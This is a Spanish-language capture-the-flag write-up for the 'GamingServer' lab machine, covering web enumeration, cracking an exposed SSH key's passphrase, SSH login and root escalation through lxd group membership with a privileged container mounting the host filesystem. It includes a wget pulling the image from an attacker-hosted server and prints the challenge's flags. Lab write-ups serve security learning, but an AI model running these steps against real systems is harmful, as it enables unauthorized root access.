# GamingServer CTF


---

## Fase 1 — Enumeración

### Fase 1.1 — Nmap Port Scan

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
nmap -sC -sV -oN gamingserver.nmap <TARGET_IP>
```

**Puertos descubiertos:**

| Puerto | Servicio | Versión |
|--------|----------|---------|
| 22/tcp | SSH | OpenSSH 7.6p1 Ubuntu |
| 80/tcp | HTTP | Apache 2.4.29 Ubuntu |

**Hallazgos:**
- HTTP → Título: **House of Danak** → servidor de gaming
- SSH disponible → posible acceso con clave RSA



---

### Fase 1.2 — Enumeración Web y Código Fuente

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
gobuster dir -u http://<TARGET_IP> \
             -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
             -x php,txt,html \
             -t 50
```

**URL visitada:**
```
http://<TARGET_IP>
# Clic derecho → Ver código fuente
```

**Directorios descubiertos:**
- `/uploads` → Status 301 🔴
- `/secret` → Status 301 🔴
- `robots.txt` → Status 200

**Hallazgo crítico en código fuente:**
- Comentario oculto: `john, please add some actual content to the site! lorem ipsum is horrible to look at.`
- **Usuario identificado: `john`** 🔴 → guardamos este nombre para el acceso SSH posterior



---

### Fase 1.3 — Exploración de /uploads y /secret

**URLs visitadas:**
```
http://<TARGET_IP>/uploads/
http://<TARGET_IP>/secret/
```

**Hallazgos críticos:**
- `/uploads/dict.lst` → Wordlist de contraseñas 🔴 → usada para crackear la passphrase RSA
- `/uploads/manifesto.txt` → The Hacker Manifesto → no útil directamente
- `/secret/secretKey` → **Clave RSA privada encriptada** 🔴 → vector de acceso SSH





---

### Fase 1.4 — Descarga de Archivos

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
wget http://<TARGET_IP>/secret/secretKey
wget http://<TARGET_IP>/uploads/dict.lst
chmod 600 secretKey
ls -la
```

**Hallazgos:**
- `secretKey` → Clave RSA privada descargada y con permisos correctos
- `dict.lst` → Wordlist descargada para crackeo



---

### Fase 1.5 — Crackeo de Passphrase RSA con John

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
ssh2john secretKey > key.hash
john key.hash --wordlist=dict.lst
```

**Passphrase obtenida:**

| Campo | Valor |
|-------|-------|
| Archivo | secretKey |
| **Passphrase** | **letmein** 🔴 |



---

## Fase 2 — Foothold

### Fase 2.1 — Acceso SSH como john

**Comando ejecutado:**
```bash
# [MÁQUINA ATACANTE]
ssh -i secretKey john@<TARGET_IP>
# Passphrase: letmein
```

**Hallazgos:**
- Acceso exitoso como `john` usando la clave RSA con passphrase crackeada
- Sistema: Ubuntu 18.04.4 LTS
- Hostname: `exploitable`



---

### Fase 2.2 — User Flag

**Comando ejecutado:**
```bash
# [MÁQUINA OBJETIVO - como john]
whoami
ls
cat user.txt
```

**User Flag:**
```
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```



---

## Fase 3 — Escalada de Privilegios

### Fase 3.1 — Identificación del Vector PrivEsc (grupo lxd)

**Comando ejecutado:**
```bash
# [MÁQUINA OBJETIVO - como john]
id
groups
```

**Hallazgo crítico:**

| Usuario | Grupos |
|---------|--------|
| john | adm, cdrom, sudo, dip, plugdev, **lxd** 🔴 |

**Vector:** john pertenece al grupo `lxd` → montamos el filesystem del host en un contenedor privilegiado → acceso como root al sistema de archivos completo



---

### Fase 3.2 — Construcción de Imagen Alpine en Kali

**Comandos ejecutados:**
```bash
# [MÁQUINA ATACANTE]
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sudo bash build-alpine
ls *.gz
```

**Hallazgos:**
- Imagen Alpine generada: `alpine-v3.23-x86_64-20260501_2058.tar.gz`



---

### Fase 3.3 — Transferencia de Imagen al Objetivo

**Paso 1 — Servidor HTTP en Kali:**
```bash
# [MÁQUINA ATACANTE]
python3 -m http.server 8080
```

**Paso 2 — Descarga en el objetivo:**
```bash
# [MÁQUINA OBJETIVO - como john]
cd /tmp
wget http://<ATTACKER_IP>:8080/alpine-v3.23-x86_64-20260501_2058.tar.gz
ls
```



---

### Fase 3.4 — Exploit lxd — Montar Filesystem como Root

**Comandos ejecutados:**
```bash
# [MÁQUINA OBJETIVO - como john]
lxc image import /tmp/alpine-v3.23-x86_64-20260501_2058.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite -- /bin/sh
```

**Hallazgos:**
- Imagen importada correctamente como `myimage`
- Contenedor `ignite` creado con `security.privileged=true`
- Filesystem del host montado en `/mnt/root`
- Shell obtenida dentro del contenedor como **root** 🔴



---

### Fase 3.5 — Root Flag

**Comandos ejecutados:**
```bash
# [CONTENEDOR - como root]
id
ls /mnt/root/root/
cat /mnt/root/root/root.txt
```

**Root Flag:**
```
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```


